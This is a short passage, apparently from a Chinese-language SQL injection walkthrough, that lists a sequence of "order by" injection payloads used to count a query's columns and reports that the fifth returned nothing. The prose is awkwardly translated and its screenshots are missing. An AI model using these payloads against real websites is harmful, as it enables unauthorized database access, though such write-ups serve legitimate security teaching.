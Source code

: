 *****尝试每一个有效载荷*****

```
***') order by 1-- -
') order by 2-- -
') order by 3-- -
') order by 4-- -
') order by 5-- -***
```

*****![](img/383b1816929ba7f1a2e9ceaf36ccb52b.png)*****

*****当我尝试的时候*****

```
***') order by 5-- -***
```

*****![](img/3184f452825339e177b3000f00bbcf77.png)*****

*****它没有向我显示任何东西，这意味着这是攻击者的错误*****
